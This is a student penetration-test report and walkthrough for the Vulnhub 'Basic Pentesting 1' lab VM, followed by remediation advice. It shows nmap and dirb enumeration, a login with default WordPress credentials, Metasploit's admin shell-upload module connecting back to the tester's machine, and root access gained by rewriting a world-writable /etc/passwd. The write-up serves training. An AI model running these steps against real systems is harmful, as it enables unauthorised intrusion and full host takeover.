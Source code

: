 # Basic Pentesting 1 — Vulnhub

Alexander Hoffmann - alexander.hoffmann@edu.ece.fr\
Ludovic Fritel - ludovic.fritel@edu.ece.fr\
Vincent Cadenet - vincent.cadenet@edu.ece.fr

## Executive summary
Our team conducted a comprehensive security assessment of a small boot2root Vulnhub VM in order to determine existing vulnerabilities and establish the current level of security risk associated with the environment and the technologies in use.

## Test scope
The test scope for this engagement included one host on a virtual machine connected to a local network containing a web application.

Testing was performed March 27 – March 29, 2020.

Testing was performed using industry-standard penetration testing tools and frameworks, including Nmap, DIRB, the Metasploit Framework, WPScan. All of these tools are contained in the Kali VM.

## Results
The table below includes the scope of the tests performed, as well as the overall results of penetration testing these environments.
| Environment tested | Result   |
| ------------------ |:---------|
| Web application    | Critical |
| Server             | Critical |

To test the security posture of the internal network, we began with a reconnaissance and host discovery phase during which we used port scans and other OSINT tools to fingerprint the operating systems, software, and  services running on the target host. After fingerprinting the various targets and determining open ports and services enabled on the host, we executed a vulnerability enumeration phase, in which we listed all potential vulnerabilities affecting the host and developed a list of viable attack vectors. Finally, in order to weed out false positives and validate any remaining vulnerabilities, we attempted to exploit all vulnerabilities affecting the target host. After comprehensive testing, critical vulnerabilities were discovered to be present in the target host, and we were ultimately able to exploit these issues to compromise the confidentiality, integrity, and availability of the host.

Multiple Critical severity issues were found affecting the host on the network, which require immediate remediation efforts in order to secure the machine against malicious attackers.

## Recommendations
The following recommendations provide direction on improving the overall security posture of the host and critical applications:
1. Ensure that the credentials protecting the WordPress Admin dashboard on host 192.168.56.5 are of suitable complexity to prevent brute force attacks. More specifically, increase the strength of the password for the “admin” administrator account on the web app.
2. Restrict write permissions on the /etc/passwd file to root only.
3. Restrict access to the FTP service on host 192.168.56.5.

## Testing approach
### Overview
All testing was executed in several related phases.
1. In the planning phase, the rules of engagement were identified, scope of testing and test windows were agreed upon, and testing goals were set.
2. The discovery phase included automated vulnerability scanning along with manual testing to explore and understand the testing target and any vulnerabilities that could be detected by automated tools.
3. The attack phase comprised efforts to exploit any vulnerabilities detected, and to synthesize knowledge gained about the environment, its technology, its users and its function into an escalation of privilege beyond that intended by the customer.
4. The final phase recorded all findings in a manner that supports risk assessment and remediation. This included the writing of this report.

### Scope
Before starting our penetration tests, let's establish the architecture of our network. The target machine is connected to a host-only adapter on the network `192.168.56.0/24`. Its IP address is `192.168.56.5`. The Kali VM has two network interfaces. The first one is connected to the same host-only adapter as the target machine and has the IP address `192.168.56.6`. The second interface is a bridge adapter which connects the VM to the same network as the host machine. This is necessary to have an active internet connection on the Kali VM. An alternative would have been to use a NAT network for this interface. Both methods are viable.

### Enumeration
First, start with an nmap scan.
```bash
nmap -p- -sS -Pn -n -vvv -oA nmap-host-ports 192.168.56.5
```
Which yields the following result:
```bash
# Nmap 7.80 scan initiated Sat Mar 28 14:33:36 2020 as: nmap -p- -sS -Pn -n -vvv -oA nmap-host-ports 192.168.56.5
Nmap scan report for 192.168.56.5
Host is up, received arp-response (0.000059s latency).
Scanned at 2020-03-28 14:33:36 EDT for 4s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 08:00:27:DC:6B:9A (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Mar 28 14:33:40 2020 -- 1 IP address (1 host up) scanned in 3.49 seconds
```
Observe three open ports: ftp, ssh and http. We probably need a login for ssh. Therefore, let's try to open a web browser and access both ftp and http protocols.

If we type `ftp://192.168.56.5` in the browser, we get prompted with a login screen. Hence, we know that a login will be necessary both for ssh and for ftp.

Now, type `http://192.168.56.5` in the browser. This time, we get a simple HTML page. The idea is now to determine all URLs with the given prefix. To do this, we use a tool called Dirb.
```bash
dirb http://192.168.56.5/ -r
```
This is the output:
```bash
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Mar 28 15:00:16 2020
URL_BASE: http://192.168.56.5/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.5/ ----
+ http://192.168.56.5/index.html (CODE:200|SIZE:177)                                                          
==> DIRECTORY: http://192.168.56.5/secret/                                                                    
+ http://192.168.56.5/server-status (CODE:403|SIZE:300)                                                       
                                                                                                              
-----------------
END_TIME: Sat Mar 28 15:00:18 2020
DOWNLOADED: 4612 - FOUND: 2
```
There are three results. The first one, index.html is just the landing page we already see on the screen. The second one is a server status page (supposedly) which we do not have access to (code 403). Finally, let's checkout `http://192.168.56.5/secret`.

We land on a page that seems to be a Wordpress blog. Most links on the page lead to the URL with the prefix `vtcsec`. Add a new host to /etc/hosts binding `vtcsec` to the IP address `192.168.56.5`.

Now, launch a new DIRB scan. This time, we scan recursively. This means the /secret, which is a directory, is going to be brut forced too. This time, we find an admin login page. We are can confirm that this is a Wordpress blog. Try user:admin password:admin. These credentials work. We get prompted the WP admin dashboard.

### Penetration
We currently have access to a WordPress Admin Dashboard. Therefore, we will use Metasploit's WordPress Admin Shell Upload exploit. This module will generate a plugin, pack the payload into it and upload it to a server running WordPress providing valid admin credentials are used.

```bash
msf5 > use exploit/unix/webapp/wp_admin_shell_upload
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.56.5
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI secret
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 192.168.56.6
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploit
```
It is necessary to set the local host because the default interface on the Kali VM is the bridged adapter.

We now have a shell as www-data. Upload unix-privesc-check, a shell script to check for simple privilege escalation vectors on Unix systems.
```bash
meterpreter > upload /usr/bin/unix-privesc-check
meterpreter > shell
chmod +x unix-privesc-check
./unix-privesc-check standard > out.txt
```
After reading the file out.txt, it appears that /etc/passwd is a critical file because any user has write permission. Therefore, we can change the password for the root user.
```bash
openssl passwd
Password: alex
Verifying - Password: alex
QOUne5kzinD0M
```
Edit the following line
```bash
root:QOUne5kzinD0M:0:0:root:/root:/bin/bash
```
Now, we can login to the VM using user:root, password:alex. Check user with `whoami`. It should prompt root.
